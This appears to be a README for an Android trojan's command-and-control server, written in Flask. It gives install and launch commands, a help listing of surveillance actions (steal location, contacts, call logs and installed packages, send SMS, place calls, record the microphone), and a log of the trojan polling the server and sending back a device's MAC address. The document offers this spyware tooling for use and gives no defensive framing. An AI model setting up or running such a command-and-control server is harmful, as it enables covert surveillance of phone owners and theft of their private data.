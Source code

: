 Entire README here https://github.com/remijouannet/trojandroid_app
--
trojandroid_server
==

the last component of the project, it's a simple flask script who expose webservice to interact with the trojan.

the trojan launch a background service who's gonna call the webservice continually to see if their is action to execute (send a sms, get the mac address ...), if an order,is given to the trojan, the answer is send from the trojan to the server to an another webservice.

so first of all install trojandroid_server from git


>\# git clone https://github.com/remijouannet/trojandroid_server.git

>\# pip install -r requirements.txt

>\# python setup.py install

after this you can launch teh server with the cmd androidtrojan

>\# androidtrojan -h

```
usage: androidtrojan [-h] [--location] [--contacts] [--calllogs] [--packages]
                     [--mac] [--sendsms PhoneNumber Message]
                     [--call PhoneNumber calltime] [--recordmic recordtime]
                     [-v] [-s folder]

ACTION

optional arguments:
  -h, --help            show this help message and exit
  --location            Get Location
  --contacts            Get Contacts
  --calllogs            Get calllogs
  --packages            Get installed packages
  --mac                 Get Mac address
  --sendsms PhoneNumber Message
                        Send SMS
  --call PhoneNumber calltime
                        Call a number for X millisecondes
  --recordmic recordtime
                        Record mic sound for X millisecondes and receive the
                        audio file
  -v, --verbose         verbose
  -s folder, --ssl folder
                        Folder with app.crt and app.key for https
```

per default, the android trojan use https, so you have to use the script ssl.sh in the repo to generate private/public key, after that you can just launch a command to get information from the trojan.

example to get the mac adress

>\# sudo androidtrojan -s /home/pi/git/trojandroid_server/ssl/ --mac -v
```
 * Running on https://192.168.1.36:443/ (Press CTRL+C to quit)
 * Restarting with stat
192.168.1.50 - - [08/Jul/2015 19:38:44] "GET /action HTTP/1.1" 200 -
192.168.1.50 f8:e0:79:ab:8c:88
f8:e0:79:ab:8c:88
192.168.1.50 - - [08/Jul/2015 19:38:45] "POST /result HTTP/1.1" 200 -
```
